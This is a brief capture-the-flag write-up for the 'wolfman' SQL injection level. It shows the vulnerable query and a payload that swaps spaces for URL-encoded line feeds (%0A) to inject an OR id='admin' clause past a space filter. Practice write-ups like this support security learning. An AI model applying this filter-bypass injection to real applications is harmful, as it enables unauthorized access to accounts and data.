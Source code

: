 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 5
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/48346668-4ade-4937-98dc-cd3160cfa815)

We are provided with the SQL query:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw='{$_GET[pw]}'
```

This level prints out the flag if the `ìd=admin`. 

However, it also removes all space characters. In order to get around this, we need to use the Line Feed (`%0A`) character.

If we provide the following URI:

```
?pw='%0AOR%0Aid='admin
```

The resultant query becomes:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw=''
OR
id='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/ea2c6e8d-c9e1-4e5b-80bd-2dfeb29f1c0d)
